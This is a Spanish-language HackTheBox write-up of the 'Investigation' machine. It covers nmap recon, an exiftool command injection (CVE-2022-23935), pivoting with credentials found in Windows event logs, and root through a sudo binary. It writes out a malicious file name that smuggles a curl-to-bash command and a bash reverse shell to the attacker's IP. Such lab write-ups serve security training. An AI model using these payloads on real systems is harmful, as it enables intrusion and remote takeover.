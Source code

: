 ```yaml
---
layout: single
title: HTB - Investigation writeup
date: 2023-02-09
classes: wide
header:
  teaser: /assets/images/HackTheBox/logo.svg
  teaser_home_page: true
categories:
  - HackTheBox  
  - Medium
tags:
  - Exiftool
  - Microsoft Outlook
  - Event log
  - Sudo
  - Reversing
---
```


![](/assets/images/HackTheBox/Investigation/Investigation.png)

En la máquina de hoy abusaremos de una version desactualizada de `exiftool` que nos permitirá ejecutar comandos y ganar acceso. Encontraremos un archivo `.msg` (correo electrónico de Microsoft Outlook) dentro de la máquina que contendrá un archivo `.zip` con eventos de windows (.evtx), gracias a los eventos podremos encontrar credenciales expuestas para conectarnos por **ssh** (user pivoting). Para la escalada de privilegios podremos ejecutar un binario como **root** sin necesidad de contraseña, tendremos que hacer reversing al binario para entender qué es lo que esta haciendo y poder ganar una consola como root.

## Índice
* [Nmap, Fuzzing y Reconocimiento](#nmap-fuzzing-y-reconocimiento)
* [Exiftool RCE](#exiftool-rce)
* [User Pivoting](#user-pivoting)
* [Reversing and Privilege Escalation](#reversing-and-privilege-escalation)

## Nmap, Fuzzing y Reconocimiento

Como siempre, en la fase de reconocimiento usamos nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap/Puertos.txt 10.10.11.197
```

```
Puertos.txt

# Nmap 7.92 scan initiated Tue Jan 31 08:16:10 2023 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap/Puertos.txt 10.10.11.197
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.197 ()   Status: Up
Host: 10.10.11.197 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///    Ignored State: closed (65533)
# Nmap done at Tue Jan 31 08:16:23 2023 -- 1 IP address (1 host up) scanned in 12.34 seconds
```

La máquina tiene 2 puertos abiertos, 22 y 80:

```bash
nmap -p22,80 -sVC -oN nmap/VersionServicios.txt 10.10.11.197
```

```
VersionServicios.txt

# Nmap 7.92 scan initiated Tue Jan 31 08:17:12 2023 as: nmap -p22,80 -sVC -oN nmap/VersionServicios.txt 10.10.11.197
Nmap scan report for eforenzics.htb (10.10.11.197)
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: eForenzics - Premier Digital Forensics
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 31 08:17:21 2023 -- 1 IP address (1 host up) scanned in 9.67 seconds
```

Para enumerar un poco la página web por consola, antes de ir directamente al navegador, voy a utilizar `whatweb`.

![](/assets/images/HackTheBox/Investigation/whatweb.png)

La máquina está utilizando **Virtual Hosting**, para que nos resuelva tenemos que añadir una línea en el **/etc/hosts**

```
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

10.10.11.197   eforenzics.htb
```

![](/assets/images/HackTheBox/Investigation/whatweb2.png)

## Exiftool RCE

La página principal nos dice que que podemos subir una foto gratis y que nos harán forense a la foto que subamos.

> http://eforenzics.htb/service.html

![](/assets/images/HackTheBox/Investigation/upload.png)

Cuando subimos una foto cualquiera podremos confirmar que está utilizando `exiftool` para hacer forense a la foto, pero esta versión de exiftool es vulnerable a inyección de comandos (versiones menores a la 12.38).<br>

![](/assets/images/HackTheBox/Investigation/exiftool.png)

La inyección se acontece cuando el nombre del archivo termina con un pipe `|`.<br>

* [CVE-2022-23935](https://nvd.nist.gov/vuln/detail/CVE-2022-23935)

Para ejecutar comandos he copiado una imagen real  y la he llamado <code>`curl 10.10.14.174|bash` |</code>. Estaré compartiendo un servidor http con python para mandarme la **reverse shell**.

```bash
cp /home/ch3chu/Descargas/wallpaper.png '`curl 10.10.14.174|bash` |'
```

![](/assets/images/HackTheBox/Investigation/file.png)

```bash
echo -e '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.10.14.174/443 0>&1"' > index.html
```

![](/assets/images/HackTheBox/Investigation/index.png)

Nos levantamos el servidor HTTP y a la vez nos ponemos a la escucha por el puerto **443**:

![](/assets/images/HackTheBox/Investigation/http.png)

Subimos la foto y recibimos la shell:

![](/assets/images/HackTheBox/Investigation/uploadPng.png)

![](/assets/images/HackTheBox/Investigation/www-data.png)

## User Pivoting

Al enumerar el sistema y buscar archivos de los usuarios existentes encontramos un archivo `.msg`.

![](/assets/images/HackTheBox/Investigation/find.png)

Los archivos con extensión **.msg** son archivos de correo electrónico en formato Microsoft Outlook. Representan mensajes de correo electrónico que se guardan localmente en el ordenador y se pueden abrir con Microsoft Outlook o cualquier otro programa que sea compatible con el formato **.msg**. Estos archivos contienen información sobre el remitente, el destinatario, el asunto, el cuerpo del mensaje, adjuntos y otras propiedades relacionadas con el correo electrónico. También pueden incluir información de seguimiento y elementos de calendario como citas y reuniones.<br>
Lo que hice en su momento fue transferirme este archivo a una máquina windows y darle doble click:

![](/assets/images/HackTheBox/Investigation/mensage.png)

Vemos que tiene un comprimido `zip` adjunto, si lo descomprimimos podemos ver que tiene un archivo con extensioin `evtx`, esta extensión se utiliza para los event log de windows. Lo más facil es transferirse este archivo a una máquina windows y darle doble click para poder inspeccionar los **logs** facilmente.<br>
En concreto hay un **ID de evento** *4776* que se registra cada vez que un controlador de dominio (DC) intenta validar las credenciales de una cuenta usando NTLM sobre Kerberos. Este evento también se registra para los intentos de inicio de sesión en la cuenta SAM local en estaciones de trabajo y servidores Windows, ya que NTLM es el mecanismo de autenticación predeterminado para el inicio de sesión local.

![](/assets/images/HackTheBox/Investigation/4776.png)

Vemos que hay credenciales expuestas, lo mas seguro es que sean del usuario `smorton`, lo cual me permite conectarme por **ssh**.

## Reversing and Privilege Escalation

Una vez estemos loggeados como `smorton` tenemos que volver a enumerar el sistema. Esta vez podemos ejecutar un binartio `/usr/bin/binary` como root sin necesidad de contraseña:

![](/assets/images/HackTheBox/Investigation/sudo.png)

Para saber un poco mejor que es lo que hace este ejecutable me creé un proyecto en `hydra` para poder leer el codigo en **C** y analizarlo. Básicamente este ejecutable primero valida si el número de argumentos que le estamos pasando es 3, si no, el programa sale; luego valida si el usuario que lo esta ejecutando es **root**, y por ultimo está comparando el ultimo argumento con una cadena de texto `lDnxUysaQn`, si no es la misma cadena se para el programa.

![](/assets/images/HackTheBox/Investigation/hydra.png)

Ahora que sabemos como ejecutar el programa correctamente, tenemos que entender que hace. Este trozo del codigo esta creando un archivo llamado como el último argumento que le pasemos, en este caso `lDnxUysaQn`, luego está realizando un curl al primero arugmento y lo esta guardando en el archivo creado.

![](/assets/images/HackTheBox/Investigation/hydra2.png)

Por último el programa está ejecutando el archivo `lDnxUysaQn` con perl.

![](/assets/images/HackTheBox/Investigation/hydra3.png)

Lo que me lleva a pensar es, ¿qué pasaría si pongo mi IP como primer argumento y me levanto un servidor HTTP con codigo en perl que me ejecute una bash?

![](/assets/images/HackTheBox/Investigation/index2.png)

![](/assets/images/HackTheBox/Investigation/index3.png)

![](/assets/images/HackTheBox/Investigation/root.png)
